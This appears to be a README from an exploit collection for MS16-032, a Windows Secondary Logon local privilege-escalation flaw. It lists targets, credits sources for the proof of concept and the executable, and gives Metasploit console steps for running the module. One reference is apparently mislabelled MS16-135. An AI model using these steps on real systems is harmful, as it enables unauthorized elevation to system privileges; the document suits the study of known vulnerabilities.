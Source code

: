# MS16-032

- The POC of MS16-032 was from [exp-db](https://www.exploit-db.com/exploits/39719/)
- The exp(ms16-032.exe) was from [@khr0x40sh](https://github.com/khr0x40sh/ms16-032)

Vulnerability reference:
 * [MS16-135](https://technet.microsoft.com/en-us/library/security/ms16-032.aspx)
 * [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099)
 
## Targets
- Windows x86
- Windows x64

### Usage of MS16-032.ps1

![x86](img/x86.png)

![x64](img/x64.png)

### Windows 10

![Win10](img/win10.png)

***

## Use on msf

This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.

```
 msf > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
 msf exploit(ms16_032_secondary_logon_handle_privesc) > show targets
        ...targets...
 msf exploit(ms16_032_secondary_logon_handle_privesc) > set TARGET <target-id>
 msf exploit(ms16_032_secondary_logon_handle_privesc) > show options
        ...show and set options...
 msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit
```
